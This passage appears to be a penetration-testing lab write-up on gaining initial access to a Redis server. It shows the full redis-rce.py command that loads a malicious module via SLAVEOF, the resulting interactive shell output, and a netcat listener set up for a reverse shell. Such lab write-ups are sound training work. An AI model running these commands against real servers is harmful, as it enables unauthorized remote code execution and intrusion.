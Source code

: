 
---

## Initial Access
### Redis RCE
Using [Redis-rce](https://github.com/Ridter/redis-rce?tab=readme-ov-file), I uploaded the `exp_lin.so` module and performed Remote Code Execution (RCE). Although the command output was slightly delayed, I was able to confirm that the RCE was successfully executed.
```sh
$ python3 redis-rce.py -r 192.168.149.176 -L 192.168.45.224 -P 80 -f exp_lin.so

█▄▄▄▄ ▄███▄   ██▄   ▄█    ▄▄▄▄▄       █▄▄▄▄ ▄█▄    ▄███▄   
█  ▄▀ █▀   ▀  █  █  ██   █     ▀▄     █  ▄▀ █▀ ▀▄  █▀   ▀  
█▀▀▌  ██▄▄    █   █ ██ ▄  ▀▀▀▀▄       █▀▀▌  █   ▀  ██▄▄    
█  █  █▄   ▄▀ █  █  ▐█  ▀▄▄▄▄▀        █  █  █▄  ▄▀ █▄   ▄▀ 
  █   ▀███▀   ███▀   ▐                  █   ▀███▀  ▀███▀   
 ▀                                     ▀                   


[*] Connecting to  192.168.149.176:6379...
[*] Sending SLAVEOF command to server
[+] Accepted connection from 192.168.149.176:6379
[*] Setting filename
[+] Accepted connection from 192.168.149.176:6379
[*] Start listening on 192.168.45.224:80
[*] Tring to run payload
[+] Accepted connection from 192.168.149.176:49908
[*] Closing rogue server...

[+] What do u want ? [i]nteractive shell or [r]everse shell or [e]xit: i
[+] Interactive shell open , use "exit" to exit...                                                                  
$ whoami                                                                                                            
$ pwd                                                                                                               
 nprudence                                                                                                          
$ id                                                                                                                
n/tmp                                                                                                               
$ whoami                                                                                                            
pnuid=1001(prudence) gid=1001(prudence) groups=1001(prudence) 
```

### Connect a Reverse shell 
I opened port `22` and attempted to establish a reverse shell connection.
```sh
$ nc -nvlp 22
listening on [any] 22 ...
```
